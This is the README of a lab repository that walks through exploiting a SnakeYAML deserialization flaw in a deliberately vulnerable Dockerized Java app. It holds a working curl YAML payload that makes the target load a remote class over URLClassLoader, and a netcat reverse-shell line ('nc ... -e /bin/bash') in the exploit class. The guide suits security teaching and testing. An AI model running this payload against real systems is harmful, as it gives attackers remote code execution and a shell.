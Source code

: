 # Exploiting SnakeYAML Deserialization Vulnerability and Obtaining a Reverse Shell

This repository contains a step-by-step guide on how to exploit the SnakeYAML deserialization vulnerability in a Java application running in a Docker container, and how to obtain a reverse shell. Please note that this guide is for educational purposes only and should not be used for any malicious activities.

## Prerequisites

Before starting, make sure you have the following:

- Docker installed on your system.
- Basic knowledge of Docker and Java.

## About the Vulnerable Application

The vulnerable Java application running in the Docker container is designed to accept unsanitized YAML input. The application uses SnakeYAML, a popular YAML library for Java, which is known to have a deserialization vulnerability.

It's important to note that in a secure production environment, applications should always validate and sanitize user input to prevent security vulnerabilities like this. The purpose of this repository is to demonstrate the exploitation of such vulnerabilities for educational purposes only.

## Steps

1. Set up the Docker environment
   - Clone this repository to your local machine.
   - Navigate to the repository's directory.

2. Build the vulnerable application
   - Build the Docker image containing the vulnerable Java application by running the following command:
     ```
     docker build -t vulnerable-app .
     ```

3. Start the Docker container
   - Start the Docker container using the following command:
     ```
     docker run -d -p 8080:8080 --name vulnerable-container vulnerable-app
     ```

4. Edit and compile ExploitScriptEngineFactory.java
   - Open the `ExploitScriptEngineFactory.java` file and modify the following line:
     ```
     Runtime.getRuntime().exec("nc <IP-ADDRESS> <PORT> -e /bin/bash");
     ```
     Replace `<IP-ADDRESS>` with your attacker machine's IP address and `<PORT>` with the listener port noted in step 6.
   - Compile the modified `ExploitScriptEngineFactory.java` file:
     ```
     javac ExploitScriptEngineFactory.java
     ```
   - Place the compiled class file inside the folder (e.g., `exploit/ExploitScriptEngineFactory.class`).

5. Start an HTTP server
   - Start an HTTP server to host the Java class file inside the `src` directory. You can use Python's SimpleHTTPServer module:
     ```
     python3 -m http.server 8000
     ```

6. Exploit the SnakeYAML deserialization vulnerability
   - Start a listener on your local machine to receive the reverse shell connection. Use Netcat or any other suitable tool:
     ```
     nc -lvp 3333
     ```
   - Serve the Java class file using the same HTTP server from step 5.
   - Use a tool like Burp Suite or curl to send a malicious payload to the vulnerable application. Modify the payload as per your requirements:
     ```bash
     curl -X POST -H "Content-Type: application/x-yaml" \
          -d '!!javax.script.ScriptEngineManager [
               !!java.net.URLClassLoader [[!!java.net.URL ["http://<your-web-server-ip>:8000/"]]]
             ]' \
          http://localhost:8080/endpoint
     ```

7. Once the payload is successfully executed on the vulnerable machine, you will receive a reverse shell connection on your listener.

## Disclaimer

This guide is provided for educational purposes only. Do not use this information for any illegal or malicious activities. The authors and contributors are not responsible for any misuse or damage caused. Use at your own risk.

## Contributing

If you have any improvements or suggestions for this guide, please feel free to submit a pull request.

## License

This project is licensed under the MIT License.
